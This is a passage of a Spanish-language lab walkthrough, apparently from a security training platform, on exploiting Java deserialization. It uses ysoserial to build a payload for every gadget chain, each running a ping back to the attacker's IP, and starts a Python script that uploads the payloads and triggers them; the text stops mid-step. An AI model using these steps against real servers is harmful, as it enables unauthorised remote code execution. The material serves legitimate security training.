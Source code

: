 ```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar >yso  2>&1
cat yso | tr -d ' ' | cut -d "@" -f 1 > payloads.txt
sed -i -e '1,7d'  payloads.txt
```

Estos comandos guardarán la carga útil en el archivo yso y le darán formato para hacer una lista de cargas útiles de la herramienta ysoserial y finalmente la guardarán como payloads.txt.

Mandar:

```
cat payloads.txt
```

El resultado será similar a este.

Paso 2: Genere una carga útil para cada línea de la lista antes mencionada.

> \[Nota] Vamos a hacer ping a la IP de la máquina atacante, no a la máquina objetivo.

Cambie el directorio a home para que podamos enumerar todas las cargas útiles fácilmente aquí.

Mandar:

```
cd /home
```

Utilice el siguiente comando para generar cargas útiles.

Mandar:

```
while read payloadname; do java -jar ../root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar $payloadname "ping 192.91.247.2 -c 3" > $payloadname; done < payloads.txt
```

El resultado será similar.

Paso 3: Construya un exploit en Python que imite el uso del sitio web.

Tendrá que tomar una lista de cargas útiles (las tenemos por nombre, en breve convertiremos la lista en una lista de nombres de archivo). Además, el exploit tendrá que emitir dos solicitudes una tras otra: la de "carga" e inmediatamente después la de "leer archivo".

En los siguientes ejemplos, estamos usando Python 3. Tenga en cuenta que estamos accediendo al sitio web de la máquina de destino, por lo que debemos usar esa dirección IP.

La solicitud de "leer archivo" puede tener un aspecto similar al que se muestra a continuación.

```
def readfile(filename):
  url = "http://demo.ine.local/upload/index.php?sent=OK"
  r = requests.get(url)
  print("[+] Used filename: " + filename)
  print(r.text)
  print("\n")
```

Entonces, la solicitud "upload\_file" puede ser similar a la siguiente.
